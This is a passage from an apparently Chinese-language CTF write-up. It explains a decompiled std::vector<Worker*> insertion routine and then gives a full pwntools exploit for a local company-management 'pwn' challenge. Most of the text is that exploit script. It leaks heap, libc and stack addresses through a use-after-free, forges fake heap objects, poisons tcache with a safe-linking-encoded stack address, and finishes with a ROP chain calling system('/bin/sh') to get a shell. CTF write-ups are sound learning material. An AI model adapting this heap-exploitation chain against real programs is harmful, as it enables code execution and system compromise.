  __int64 v4; // rbx
  __int64 v5; // rax
  __int64 v7; // [rsp+20h] [rbp-20h]

  if ( *(_QWORD *)(a1 + 8) == *(_QWORD *)(a1 + 16) )
  {
    v4 = std::forward<Worker *&>(a2);
    v5 = std::vector<Worker *>::end(a1);
    std::vector<Worker *>::_M_realloc_insert<Worker *&>(a1, v5, v4);
  }
  else
  {
    v2 = std::forward<Worker *&>(a2);
    v7 = *(_QWORD *)(a1 + 8);
    v3 = std::forward<Worker *&>(v2);
    std::construct_at<Worker *,Worker *&>(v7, v3);
    *(_QWORD *)(a1 + 8) += 8LL;
  }
  return std::vector<Worker *>::back(a1);
}
```

### 1. 函数参数
- `a1`：`std::vector<Worker*>` 对象的地址。
- `a2`：`Worker*` 类型的引用，表示要插入到 `std::vector` 中的指针。

### 2. 局部变量
- `v2`、`v3`、`v4`、`v5`：中间变量，通常用于存储计算结果。
- `v7`：用于存储 `std::vector` 当前末尾元素的地址。

### 3. 逻辑分析

```cpp
if ( *(_QWORD *)(a1 + 8) == *(_QWORD *)(a1 + 16) )
```

- `a1 + 8`：指向 `std::vector` 容器的当前末尾（即第一个空闲位置）。
- `a1 + 16`：指向 `std::vector` 容器容量的末尾（即容量上限位置）。

这一行检查 `std::vector` 是否已满（即当前元素个数是否等于容量）。如果已满，就进入重新分配逻辑；否则直接在当前末尾插入元素。

### 4. 重新分配逻辑

```cpp
v4 = std::forward<Worker *&>(a2);
v5 = std::vector<Worker *>::end(a1);
std::vector<Worker *>::_M_realloc_insert<Worker *&>(a1, v5, v4);
```

- `v4`：使用 `std::forward` 转发 `a2`，即要插入的 `Worker*` 指针。
- `v5`：调用 `std::vector<Worker*>::end()` 获取 `std::vector` 的末尾迭代器，指向当前要插入元素的位置。
- `_M_realloc_insert`：`std::vector` 的内部函数，用于在重新分配时执行插入。它会重新分配一块更大的内存，然后把旧数据和新数据复制到新内存中。

### 5. 直接插入逻辑

```cpp
v2 = std::forward<Worker *&>(a2);
v7 = *(_QWORD *)(a1 + 8);
v3 = std::forward<Worker *&>(v2);
std::construct_at<Worker *,Worker *&>(v7, v3);
*(_QWORD *)(a1 + 8) += 8LL;
```

- `v2`：使用 `std::forward` 转发 `a2`，得到要插入的 `Worker*` 指针。
- `v7`：获取 `std::vector` 当前末尾的地址（即插入位置）。
- `v3`：再次通过 `std::forward` 处理 `v2`，得到 `Worker*` 指针。
- `std::construct_at`：在地址 `v7` 处构造一个新的 `Worker*`，即把新的 `Worker*` 插入到 `std::vector` 的末尾。
- `*(_QWORD *)(a1 + 8) += 8LL`：更新 `std::vector` 的末尾指针，使其指向下一个空闲位置。

### 6. 返回值

```cpp
return std::vector<Worker *>::back(a1);
```

- 最后，函数返回 `std::vector<Worker*>` 容器的最后一个元素（即刚刚插入的元素）。


最后可以对一个 worker 实现 UAF，然后直接改 fd 就行。或者找两个相邻的 worker，都写进 tcache_struct，把第一个申请出来，利用 size 越界写把仍在 tcache_struct 中的相邻 worker 的 fd 改成加密后的栈地址。~~太麻烦了——下次也许可以试着出一道根本拿不到 worker UAF 的题来折磨别人~~ 
## exp

```python
from pwn import *
p=process("./pwn")


def add_company(company_name,budget):
    p.sendline(b"add_company "+company_name+budget)


def sell_company(company_name):
    p.sendline(b"sell_company "+company_name) 

def add_project(company_name,project_name,project_profit_per_week):
    p.sendlineafter(b"INFO: Success",b"add_project "+company_name+project_name+project_profit_per_week)

def remove_project(company_name,project_name):
    p.sendline(b"add_project "+company_name+project_name)

def hire_worker(company_name,project_name,worker_name,salary):
    p.sendlineafter(b"INFO: Success",b"hire_worker "+company_name+project_name+worker_name+b" "+salary)

def fire_worker(worker_name):
    p.sendline(b"fire_worker "+worker_name)

def move_worker(worker_name,new_project_name):
    p.sendline(b"move_worker "+worker_name+new_project_name)

def worker_info(worker_name):
    p.sendline(b"worker_info "+worker_name)

def elapse_week():
    p.sendline(b"elapse_week ")

# context(os="linux",arch="amd64",log_level="debug")

p.sendline(b"add_company "+b"llk "+str(1200).encode())


add_project(b"llk ",b"pwn ",b"1000000 ")

for i in range(40):
    hire_worker(b"llk ",b"pwn ",str(i).encode(),str(30).encode())

elapse_week()


sell_company(b"llk ")

add_company(b"llk1 ",str(1200).encode())
add_company(b"llk2 ",str(1200).encode())
add_project(b"llk2 ",b"pwn ",b"1000000 ")

worker_info(str(1).encode())

p.recvuntil(b"Project workers count: ")
heap=(int(p.recvuntil(b"\n")[:-1].decode('ascii'))<<3)-0x13370
print("leak heap",hex(heap))


add_company(b"llk3 ",str(1200).encode())

add_project(b"llk3 ",b"pwn ",b"1000000 ")

for i in range(40):
    hire_worker(b"llk3 ",b"pwn ",str(i+40).encode(),str(30).encode())


elapse_week()


sell_company(b"llk3 ")


# for tcache
#0x50 [  3]: 0x584af5e73600 —▸ 0x584af5e746c0 —▸ 0x584af5e74850 ◂— 0


add_company(b"wait1 ",str(1200).encode())
add_company(b"wait2 ",str(1200).encode())
add_company(b"wait3 ",str(1200).encode())
add_company(b"wait4 ",str(1200).encode())

#0x50 [  4]: 0x584af5e755c0 —▸ 0x584af5e73600 —▸ 0x584af5e74850 —▸ 0x584af5e746c0 ◂— 0

sell_company(b"wait2 ") 
sell_company(b"wait3 ") 
sell_company(b"wait1 ")   
sell_company(b"wait4 ")   


target_leak_libc_chunk=heap+0x164a0+0X20+0x10
payload=p64(target_leak_libc_chunk)+p64(0x40)+p64(0x40)+p64(0x13580+heap)+b"0"*0x20
fake_project=payload+p64(heap+0x13600)[:6]
add_company(fake_project+b" ",str(1200).encode())


add_company(b"l"*0x400+b" ",str(1200).encode())


worker_info(str(41).encode())
p.recvuntil(b"Project name: ")
libc=u64(p.recv(6).ljust(8,b"\x00"))-0x203b20
print("leak libc",hex(libc))


sell_company(fake_project+b" ")

add_company(b"get_money ",str(1200).encode())
add_project(b"get_money ",b"money ",b"1000000 ")

for i in range(0x10):
    elapse_week()


sell_company(b"get_money ")


add_company(b"wait1 ",str(1200).encode())
add_company(b"wait2 ",str(1200).encode())
add_company(b"wait3 ",str(1200).encode())
add_company(b"wait4 ",str(1200).encode())


sell_company(b"wait3 ") 
sell_company(b"wait1 ")  
sell_company(b"wait2 ")  
sell_company(b"wait4 ")   


environ=libc+0x20ad58
target_leak_libc_chunk=environ
payload=p64(target_leak_libc_chunk)+p64(0x40)+p64(0x40)+p64(0x13580+heap)+b"0"*0x20
fake_project=payload+p64(heap+0x13600)[:6]
add_company(fake_project+b" ",str(1200).encode())
worker_info(str(41).encode())
p.recvuntil(b"Project name: ")
stack=u64(p.recv(6).ljust(8,b"\x00"))-0x138
print("leak stack",hex(stack))


# sell_company(fake_project+b" ")
# #0x50 [  4]: 0x5caac3a18530 —▸ 0x5caac3a15600 —▸ 0x5caac3a166c0 —▸ 0x5caac3a16850 ◂— 0

# add_company(b"wait1 ",str(1200).encode())
# add_company(b"wait2 ",str(1200).encode())
# add_company(b"wait3 ",str(1200).encode())
# add_company(b"wait4 ",str(1200).encode())


# sell_company(b"wait3 ") 
# sell_company(b"wait1 ")  
# sell_company(b"wait2 ")  
# sell_company(b"wait4 ")   


# arbitary address write heap
add_company(b"llk4 ",str(1200).encode())

add_project(b"llk4 ",b"pwn ",b"1000000 ")

for i in range(40):
    hire_worker(b"llk4 ",b"pwn ",str(i+80).encode(),str(30).encode())


hire_worker(b"llk4 ",b"pwn ",p64(stack)+0x28*b"k",str(0).encode())

elapse_week()

sell_company(b"llk4 ")

#0x50 [  3]: 0x5fc4408c4530 —▸ 0x5fc4408c2850 —▸ 0x5fc4408c46c0 ◂— 0

add_company(b"wait1 ",str(1200).encode())
add_company(b"wait2 ",str(1200).encode())
add_company(b"wait3 ",str(1200).encode())
add_company(b"wait4 ",str(1200).encode())

#0x50 [  4]: 0x584af5e755c0 —▸ 0x584af5e73600 —▸ 0x584af5e74850 —▸ 0x584af5e746c0 ◂— 0

sell_company(b"wait2 ") 
sell_company(b"wait3 ") 
sell_company(b"wait1 ")   
sell_company(b"wait4 ")   

p.recv(timeout=5)


# cober fake project 1 , it need fake workers vector  and fake company
payload=p64(0x18090+heap)+p64(0x1d)+p64(0x1e)+p64(0x13580+heap)+b"0"*0x8+p64(heap+0x13550)+p64(heap+0x13558)+p64(heap+0x13558)
fake_project_1=payload+p64(heap+0x17ec0)[:6]  
add_company(fake_project_1+b" ",str(1001).encode())  

# fake project 1's  fake workers vector 
fake_project_1_fake_workers_vector=( p64(heap+0x17c60) ).ljust(0x20,b"a") 
add_company(fake_project_1_fake_workers_vector+b" ",str(1002).encode())  


#  fake company's fake vector project
fake_vector_project=(p64(0)+p64(0)+p64(heap+0x14850)+p64(heap+0x18010)).ljust(0x20,b"a")
add_company(fake_vector_project+b" ",str(1003).encode())  


# fake project 1's  fake company
payload=p64(target_leak_libc_chunk)+p64(0x40)+p64(0x40)+p64(0x13580+heap)+b"0"*0x10
fake_company=p64(0)+p64(0)+payload+p64(heap+0x13530)+p64(heap+0x13540)+p64(heap+0x13540)
add_company(fake_company+b" ",str(1004).encode())  


context(os="linux",arch="amd64",log_level="debug")
# fake project 2   ,will construt vector as tcache_struct 
payload=p64(0x18060+heap)+p64(0x1d)+p64(0x1e)+p64(0x13580+heap)+b"0"*0x8+p64(0x100+heap)+p64(0x108+heap)+p64(0x110+heap)
fake_project_2=payload+p64(heap+0x17ec0)[:6]  
add_company(fake_project_2+b" ",str(1005).encode()) 

# fake project 2  string name
add_company(b"project_2_project_2_name_name ",str(1006).encode())
# fake project 1  string name
add_company(b"project_1_project_1_name_name ",str(1006).encode())
# fake company string name
add_company(b"company_name_company_name ",str(1006).encode())


# add_company(p64(stack)+p64(0),str(1007).encode())  

# add_company(p64(0),str(1007).encode()) # padding
# add_company(p64(0),str(1007).encode()) # padding

add_company(b"a"*0x100+b" ",str(1007).encode()) # padding
add_company(b"b"*0x100+b" ",str(1007).encode()) # padding


add_company(b"a"*0x30+b" ",str(1007).encode()) # padding 0x40


move_worker(p64(stack)+0x28*b"k"+b" ",b"project_2_project_2_name_name ")

gdb.attach(p)


fire_worker(p64(stack)+0x28*b"k"+b" ")


sell_company(b"a"*0x30)


payload=(p64(stack-0x10^((heap+0x17000)>>12))).ljust(0x30,b"a")

add_company(payload+b" ",str(1007).encode())

sell_company(b"a"*0x100)
sell_company(b"b"*0x100)
pop_rdi_ret=libc+0x000000000010f75b
system=libc+0x58740
bin_sh=libc+0x1cb42f
ret=libc+0x000000000002882f
payload=(p64(0)+p64(0)+p64(0)+p64(ret)+p64(pop_rdi_ret)+p64(bin_sh)+p64(system)).ljust(0x100,b"\x00")
add_company(payload+b" ",str(1008).encode())

p.send(b"\n")
p.interactive()


```



